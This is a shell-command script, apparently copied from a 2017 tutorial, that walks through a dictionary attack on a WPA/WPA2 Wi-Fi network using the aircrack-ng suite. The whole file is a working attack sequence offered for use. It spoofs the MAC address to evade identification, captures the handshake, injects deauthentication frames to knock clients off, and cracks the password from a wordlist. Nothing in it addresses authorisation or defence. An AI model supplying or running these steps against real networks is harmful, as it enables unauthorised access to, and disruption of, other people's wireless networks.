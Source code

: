 # wifi_hacking_command_sequence-
# Execute dictionary attack to Wi-Fi Network
# 
# http://ourcodeworld.com/articles/read/407/how-to-hack-a-wi-fi-network-wpa-wpa2-through-a-dictionary-attack-with-kali-linux
# March - 2017


# List interfaces (sh)
ifconfig

# Disable interface to change the MAC address
ifconfig wlan0 down

# Spoof MAC address to 00:11:22:33:44:55
macchanger -m 00:11:22:33:44:55 wlan0

# Enable interface again :)
ifconfig wlan0 up

# Kill any services 
airmon-ng check kill

# Start interface in monitor mode
airmon-ng start wlan0

# Now from the previous step copy the name of the interface in monitor mode
# Example of output previous step: monitor mode vif enabled for [phy]wlan0 on [phy0]wlan0mon
# Name = wlan0mon

# Dump available Wi-Fi networks
airodump-ng wlan0mon

# The previous step should output a table like the following:

#|BSSID             |PWR |Beacons | #Data | #/s |CH |MB   |ENC  |CIPHER |AUTH  | ESSID            |
#|E0:98:61:47:BD:E2 |-34 |38      | 0     | 0   |1  |54e. |WPA2 |CCMP   |PSK   | The network name |

# You should copy this information as you will need the information of the network to execute some
# commands that require those values as arguments

# Copy WPA handshake with the following command
airodump-ng -c [channel] --bssid [BSSID] -w [path/to/folder/output] [interface-name-in-monitor-mode]
# Example: airodump-ng -c 1 --bssid E0:98:61:47:BD:E2 -w /root/hacking/ wlan0mon
# Note: this process can take a lot of time, so be patient
# Once the following message appears:
# WPA Handshake [BSSID OF THE DEVICE, EXAMPLE E0:98:61:47:BD:E2]
# You can proceed with the next step and stop the current command as it will still running
# The .cap files should be now in the [path/to/folder/output] 


# Inject frames to Ten authentication packages
# Recommend numberofpackages = 10
aireplay-ng -0 [number-of-packages] -a [BSSID] [interface-name-in-monitor-mode]
# Example: aireplay-ng -0 10 -a E0:98:61:47:BD:E2 wlan0mon

# Start dictionary attack using the WPA Handshake previously downloaded and 

aircrack-ng -a2 -b [BSSID] -w [path to dictionary] [path to .cap files of handshake]
# Example: aircrack-ng -a2 -b E0:98:61:47:BD:E2 -w /root/hacking/passwords.txt /root/hacking/*.cap

# That's all !

